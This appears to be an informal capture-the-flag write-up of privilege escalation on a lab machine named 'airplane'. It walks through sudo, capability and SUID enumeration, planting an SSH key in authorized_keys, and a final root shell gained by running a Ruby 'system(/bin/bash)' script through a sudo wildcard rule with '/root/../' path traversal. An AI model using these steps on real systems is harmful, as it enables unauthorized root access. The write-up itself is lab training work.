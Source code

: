 Just from the beggining i found the following file in the directory of this person:

```txt
-rw-r--r--  1 carlos carlos    0 Apr 17 07:46 .sudo_as_admin_successful
```

This indicates to me that this user is capable of doing sudo in this computer, therefore  getting the password might be beneficial.

Therefore, i was quite interested in the following directories:

```bash
drwxrwxr-x 13 carlos carlos 4096 Apr 17 08:06 .cache
drwx------ 11 carlos carlos 4096 Apr 17 07:56 .config
drwx------  3 carlos carlos 4096 Apr 17 07:49 .gnupg
drwxr-xr-x  3 carlos carlos 4096 Apr 17 07:44 .local
drwx------  4 carlos carlos 4096 Apr 17 08:06 .mozilla
-rw-r--r--  1 carlos carlos    0 Nis 17 07:46 .sudo_as_admin_successful
```

After this and finding the file sudo_as_admin i thought "i need to do sudo since the person who made this machine probably used it to try their own weakness" and sure enough i was right. HOWEVER, it is not possible to see the command you have to run as sudo without an actual login, which i did not have. 

After a long time trying to get the password (since there is activity left in the computer from searches in the internet i though it might have been there. but turns out that since you have access to .ssh you can simply drop a public key in authorized_keys) and then you can see the sudo you have to do.

**so that took a little bit of my time (i enjoy these detours anyway)**

```bash
carlos@airplane:/tmp/rubyapp$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

First thing i tried was using other paths from /root, did not work :(
## FURTHER SEARCH

```bash
carlos@airplane:/tmp$ sudo /usr/bin/ruby /root/*.rb
Traceback (most recent call last):
/usr/bin/ruby: No such file or directory -- /root/*.rb (LoadError)
```

There are no files in the given directory -> we probably have to create our own

None of the parts of /usr/bin/ruby can be modified at least directly from carlos
None of the parts of /root can be modified at least directly from carlos

```bash
drwxr-xr-x  14 root root 4096 Mar 16  2023 usr
drwxr-xr-x   2 root root 36864 Nis 18 13:29 bin
lrwxrwxrwx 1 root root 7 Nis  3  2020 /usr/bin/ruby -> ruby2.7
-rwxr-xr-x 1 root root 14488 Tem  6  2023 /usr/bin/ruby2.7
drwx------   5 root root 4096 Nis 17 08:39 root
```

## TRYING TO GET INFO FROM THE USER PROFILE

Searched:
- .mozilla: things that would have been useful before but not now **DONE**
To search:
- .cache
- .config
- .local
### CAPABILITIES

Tried capabilities, nothing out of the ordinary that might allow one to write.

```bash
carlos@airplane:~$ getcap / -r 2>/dev/null
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/snap/core20/1828/usr/bin/ping = cap_net_raw+ep
```

```bash
hudson@airplane:~$ getcap / -r 2>/dev/null
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+epcap_net_bind_service,cap_net_admin
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/snap/core20/1828/usr/bin/ping = cap_net_raw+ep
```
### SUID SGID

Interesting things found with carlos.

```bash
carlos@airplane:~$ ls -la /usr/sbin/pppd
-rwsr-xr-- 1 root dip 395144 Tem 23  2020 /usr/sbin/pppd
```

Interesting things found with hudson.

```bash
hudson@airplane:~$ find / -perm /u+s -user root -type f  2>/dev/null
/usr/sbin/pppd
```

### LIBRARIES

Another thought was that i might be able to write to a library/file called by ruby when executed

```bash
carlos@airplane:~$ find /usr/lib -perm o+w
carlos@airplane:~$ find /usr/local/lib -perm o+w
carlos@airplane:~$ find / -perm o+w 2>/dev/null # so in general there is not anything anyone can modify
```
### PROCESSES EXECUTED BY ROOT

Interesting things found 
```bash
2024/06/27 13:14:43 CMD: UID=0    PID=654    | /usr/sbin/gdm3 # screenshots
```

Cron seems to be running.

##  CRON

nothing seen that would be suspicious, so can't say


## TURNS OUT WHAT I WAS TRYING AT THE START SHOULD HAVE WORKED :< (ANGER BUILDING UP) (acktually kinda curious why though)

```bash
carlos@airplane:~$ echo 'system("/bin/bash")' > /home/carlos/rubyapp.rb
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/rubyapp.rb
root@airplane:/home/carlos# cat /root/root.txt 
```

